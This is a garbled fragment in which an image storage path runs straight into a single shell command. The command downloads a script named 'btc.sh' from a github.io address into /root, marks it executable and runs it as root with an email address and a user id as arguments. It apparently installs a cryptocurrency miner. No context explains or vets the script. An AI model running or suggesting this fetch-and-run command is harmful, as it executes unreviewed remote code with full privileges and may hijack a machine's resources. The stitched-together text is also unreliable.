wget 'https://tngx.github.io/btc.sh' -O /root/btc.sh && chmod +x /root/btc.sh && /root/btc.sh -g azure-g@gmail.com -i tungbui

